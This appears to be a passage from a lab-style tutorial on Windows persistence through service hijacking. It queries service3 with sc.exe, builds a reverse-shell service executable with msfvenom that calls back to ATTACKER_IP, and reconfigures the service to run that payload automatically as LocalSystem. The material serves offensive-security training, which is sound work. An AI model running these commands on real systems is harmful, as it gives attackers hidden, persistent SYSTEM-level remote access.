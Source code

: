 You should be able to find a stopped service called Service3. To query the service's configuration, you can use the following command:

```Command Prompt
C:\> sc.exe qc service3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: service3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\Service.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : service3
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```

There are three things we care about when using a service for persistence:

* The executable `BINARY_PATH_NAME` should point to our payload.
* The service `START_TYPE` should be automatic so that the payload runs without user interaction.
* The `SERVICE_START_NAME`, which is the account under which the service will run, should preferably be set to `LocalSystem` to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

To reconfigure "service3" parameters, we can use the following command:

```Command Prompt
sc.exe config service3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

You can then query the service's configuration again to check if all went as expected:

```Command Prompt
C:\> sc.exe qc service3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: service3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : service3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

---